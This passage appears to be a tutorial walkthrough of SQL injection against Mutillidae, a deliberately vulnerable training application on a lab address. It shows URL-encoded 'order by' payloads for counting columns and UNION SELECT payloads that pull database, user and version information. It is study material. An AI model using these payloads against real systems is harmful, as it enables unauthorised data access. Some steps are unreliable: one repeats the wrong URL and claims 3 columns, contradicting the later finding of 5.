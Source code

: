 ```
Error executing query: Unknown column '6' in 'order clause'
```
```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20order%20by%206%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* Same error so we can try a smaller number, we will try 3.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20order%20by%206%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* No error so we know we have 3 columns in table.

* No let me try 5.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20order%20by%205%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* This means we have 5 columns in table, as we have tried 6 columns and that gave us error.

---

### Reading Database Information


* Now we found out there are 5 columns, we can now select data from the columns.
* This can be done using union statement.
* The union statement is used to combine multiple select statements.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20union%20select%201,2,3,4,5%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* Now i recieve the following

```
Username=2
Password=3
Signature=4
```

* The numbers next to username, password, signature indicates that whatever sql query you place inside those numbers it will be displayed on that field.

* So now i'm going to insert database() in the second field, user() in the third field and version() in the fourth field.
* database() = This will tell me the database that is being used.
* user() = What user is currently logged in as as the database.
* version() = The version of the database.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20union%20select%201,database(),user(),version(),5%23&password=noone&user-info-php-submit-button=View+Account+Details
```
